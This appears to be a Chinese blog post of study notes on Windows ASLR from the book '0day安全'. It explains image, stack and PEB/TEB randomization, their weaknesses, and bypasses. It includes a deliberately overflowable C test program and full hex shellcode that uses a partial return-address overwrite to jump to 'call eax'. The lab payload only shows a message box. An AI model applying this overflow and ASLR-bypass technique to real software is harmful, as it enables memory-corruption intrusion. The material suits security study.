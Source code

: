 ```yaml
---
layout: post
title:  "《0day安全》ASLR保护"
date:   2019-3-29
categories: 
excerpt: 
---
```


* content
{:toc}


# **ASLR介绍**

## **简介**

微软的ASLR（Address Space Layout
Randomization）技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰shellcode的定位

从Windows Vista开始出现ASLR（Windows XP只是对PEB和TEB进行了简单的随机化处理）

ASLR的实现需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的。

支持ASLR的程序在它的PE头中会设置IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE标识。

## **类型**

### **映像随机化**

在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会发生变化。

出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlSession
ManageMemory ManagementMoveImages的键值来设定映像随机化的工作模式。

设置为0时映像随机化将禁用。

设置为-1时强制对可随机化的映像进行处理，无论是否设置注册表。

设置为其他值为正常1工作模式，安装注册表来执行。

### **堆栈随机化**

堆栈的基址不是在系统启动时确定的，而是在打开程序的时候确定的，同一程序任意两次运行时的堆栈基址都是不同的。也就是各变量在内存中的位置也是不确定的。

### **PEB与TEB随机化**

	#include "stdio.h"

	#include "stdlib.h"

	int main(int argc, char* argv[]){

		unsigned int teb;

		unsigned int peb;

		__asm{

		mov eax,FS:[0x18]

		mov teb,eax

		mov eax,dword ptr [eax+0x30]

		mov peb,eax

		}

		printf("PEB:%#0.4xnTEB:%#0.4x", peb, teb);

		getchar();

		return 0;

	}

可以用上面的代码查看当前进程的TEB和PEB。

同时可以发现PEB和TEB的随机化不是非常好。

# **ASLR的局限**

## **映像随机化**

虽然模块的加载基址变了，但是各模块的入口点（Entry那列）地址的低位两个字节是不变的，也就是说映像随机化只是对加载基址的前两个字节做了随机处理。例如0x12345678,随机之后0x5678是不变的。

## **堆栈随机化**

随机化了堆栈的基址可以有效的防止精准攻击，但自从JMP
ESP跳板指令开始使用后溢出时很少直接跳到shellcode执行；另外在浏览器攻击方面很流行的heap
spray等技术都不需要精准跳转，只需要跳到一个大概位置就可以。

## **PEB与TEB随机化**

随机化程度非常差，而且虽然地址是随机了但偏移量是固定的，也就是TEB存放在FS:0和FS:[0x18]处，PEB放在TEB偏移0x30的位置。

# **ASLR的突破**

## **攻击未启用ASLR的模块**

ASLR仅仅是项安全机制，不是什么行业标准，不支持ASLR的软件有很多。所以我们可以找到一块未开启ASLR的模块，利用它里面的指令作为跳板。

## **利用部分覆盖进行定位内存地址**

无论是函数的返回地址，还是异常处理函数的指针，或者是虚函数表指针都是要存放到堆栈中的，虽然保存的地址是经过随机处理之后的地址，但是也仅仅是前2个字节的随机化，如果我们只覆盖这个地址的最后一个或两个字节，就可以达到目的了

ASLR只是随机化了映像的加载基址，而没有对指令序列进行随机化。所以绝对地址虽然变了，但相对地址确没有改变。

调试代码：

	#include "stdafx.h"

	#include "stdlib.h"

	char shellcode[]=;

	char * test()

	{

		char tt[256];

		memcpy(tt,shellcode,262);

		return tt;

	}

	int _tmain(int argc, _TCHAR* argv[])

	{

		char temp[200];

		test();

		return 0;

	}

![](http://ww1.sinaimg.cn/large/7fb67c86gy1g1n4v311d2j20j307c0ud.jpg)

	return tt;
就是把调用test函数后，eax保存的是tt数组的首地址，所以我们只要再调用call eax就行了

前面一大串shellcode和x90可以把tt溢出，作者原话是可以通过OllyFindAddr插件
找到call eax，但我试了一下并没有找到
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n83c7eokj212i0jrjxk.jpg)
（这里一定要用实验函数内的call eax，这样才不会随机化，其他dll里面的不能用）
那退回到代码，ctrl+f直接找命令，找到了
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n84maxcnj20o607iq3y.jpg)
截取最后两个字节，将它覆盖到test函数的返回地址就可以了。
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n86vgaxcj212g0li0yc.jpg)
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n87hr7n4j20ub0m7dls.jpg)
我们已经成功的跳转到了shellcode的位置。

最后的shellcode

	char shellcode[]=

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09"
	"\x8b\x09"
	"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90"
	"\x1c\x14"
	;

这里的新加了\x8b\x09,因为Windows 7下PEB_LDR_DATA指向加载模块列表中第二个位置被KERNELBASE.dll占据，kernel32.dll的位置由第二个变为了第三个。
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1o7vvxnzmj20ji0fnmxt.jpg)

## **利用Heap spray技术定位内存地址**

[Heap spray（堆喷射）](https://tearorca.github.io/heap-spray-%E5%A0%86%E5%96%B7%E5%B0%84/)

## **利用Java applet heap spray技术定位内存地址**

以后补充

## **为.NET控件禁用ASLR**

以后补充
